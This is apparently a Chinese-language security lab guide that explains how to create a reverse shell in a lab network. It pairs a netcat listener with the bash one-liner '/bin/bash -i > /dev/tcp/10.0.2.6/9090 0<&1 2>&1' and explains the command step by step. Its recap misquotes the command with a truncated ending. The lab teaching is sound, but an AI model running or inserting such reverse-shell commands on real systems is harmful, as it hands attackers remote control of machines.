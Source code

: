 // 下面的例子展示了如何在主机 C 内部得到 Shell
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#

// 注: 如果一条 docker 命令需要容器 ID，你不需要
//     输入整个 ID 字符串。只要它们在所有容器当中
//     是独一无二的，那只输入前几个字符就足够了。</code></pre>
<p>如果你在设置实验环境时遇到问题，可以尝试从手册的“Miscellaneous Problems”部分中寻找解决方案。</p>
</div>
</div>
</div>

========================================
文件路径: .\指导：创建反向Shell\summary.html
========================================

<p>反向 shell 的关键思想是将 shell 的标准输入、输出和错误设备重定向到网络连接，这样 shell 就会从该连接获取输入，并将输出也发送回该连接。在连接的另一端运行的是攻击者的程序，这个程序只是显示来自另一端的 shell 程序打印出来的内容，并将攻击者键入的内容通过网络连接发送给 shell 程序。</p>
<p>攻击端常用的一个程序是 netcat，如果用 "-l" 选项，则会运行一个监听指定端口的 TCP 服务器。该服务器程序会打印客户端发送来的内容，并把用户输入的内容发到客户端。在下面的实验中，我们将使用 netcat（简写为 nc）来监听 9090 端口。我们先仅关注第一行。 </p>
<pre class="language-markup"><code>Attacker(10.0.2.6):$ nc -nv -l 9090
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ 
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 10.0.2.5  netmask 255.255.255.0  broadcast 10.0.2.255
        ...</code></pre>
<p>上述的 nc 命令会阻塞，等待连接。我们在服务器（10.0.2.5）上直接运行以下 bash 程序，这是模拟攻击者通过漏洞在服务器上做的事。这个 bash 命令将与攻击者机器的 9090 的端口建立一个 TCP 连接，从而创建一个反向 shell。我们可以从上述结果中看到 shell 程序的提示符，这表明 shell 程序正在服务器上运行。我们可以通过键入 ifconfig 命令来验证 IP 地址确实为 10.0.2.5，这是属于服务器的 IP 地址。以下是 bash 命令：</p>
<pre class="language-markup"><code>Server(10.0.2.5):$ /bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;1</code></pre>
<p>上述命令比较复杂，我们在下面进行详细的解释：</p>
<ul>
<li>
<p>“/bin/bash -i”: 选项 i 表示这是交互模式，意味着 shell 程序会提供 shell 提示符。</p>
</li>
<li>
<p>“&gt; /dev/tcp/10.0.2.6/9090”: 这使得 shell 程序的标准输出设备 stdout 被重定向到一个指定的 TCP 连接。在 unix 系统中，stdout 的文件描述符为 1。</p>
</li>
<li>
<p>“0&lt;&amp;1”: 文件描述符 0 表示标准输入设备 stdin。此选项告诉系统使用标准输出设备作为标准输入设备。由于标准输出已经被重定向到 TCP 连接，因此标准输入也用同一个 TCP 连接。</p>
</li>
<li>
<p>“2&gt;&amp;1”: 文件描述符 2 表示标准错误 stderr。这使得错误输出也被重定向到同一个 TCP 连接。</p>
</li>
</ul>
<p>总之，命令 “/bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;” 在服务器机器上启动了 bash 程序，它的输入来自一个 TCP 连接，输出也发送到相同的 TCP 连接。当我们在 10.0.2.5 上执行这条 bash 命令时，它会回连到 10.0.2.6 上运行的 netcat 进程。通过 netcat 显示的 “Connection received on 10.0.2.5...”，我们可以确认这点。</p>
